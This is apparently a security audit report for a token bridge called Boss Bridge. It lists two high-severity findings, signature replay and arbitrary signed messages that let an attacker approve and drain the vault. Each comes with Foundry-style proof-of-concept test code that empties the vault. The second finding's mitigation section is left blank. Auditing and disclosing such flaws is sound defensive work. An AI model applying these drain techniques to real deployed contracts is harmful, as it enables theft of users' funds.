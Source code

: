 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```

# [H-2] Any user is able to call `Bossbridge -> Vault::ApproveTo` to take control over an amount of tokens, in order to drain vault balance.

**Description:** There's no regulation about what kind of messages can be signed, it's just a request so as to get a valid signature to redeem L2 tokens into L1 `knowing that exists a valid Deposit event on L1`, users can leverage it to request signatures over any kind of message.

**Impact:** the following vulnerabilty catches the attention of malicious users due to the facility oo draining all funds in a vault.

**Proof of concept:**

```javascript

    function testMaliciousMessageSignatures() public {
        uint256 vaultInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);

        address attacker = makeAddr("attacker");

        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(vault.approveTo, (attacker, vaultInitialBalance))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        vm.prank(attacker);
        token.transferFrom(address(vault), attacker, vaultInitialBalance);

        uint256 attackerBalance = token.balanceOf(attacker);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(attackerBalance, vaultInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommened Mitigation:**
